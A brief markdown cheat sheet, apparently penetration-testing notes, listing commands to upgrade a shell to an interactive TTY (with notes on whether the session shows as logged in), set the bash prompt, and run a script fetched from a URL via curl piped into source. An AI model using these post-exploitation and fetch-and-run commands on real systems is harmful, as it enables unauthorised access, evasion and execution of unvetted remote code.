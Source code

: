 
- **Spawn TTY shell**: `/usr/bin/script -qc /bin/bash /dev/null`
> Note: This method shows yourself logged in.

<br />

- **Spawn Python TTY Shell**: `python -c 'import pty;pty.spawn("/bin/bash")'`
> Note: This method doesn't show yourself logged in.

<br />

- **Add PWD in bash**: `PS1='\u@\h:\w\$ '`

<br />

- **Run script from URL**: `source <(curl -s http://mywebsite.com/myscript.sh)`
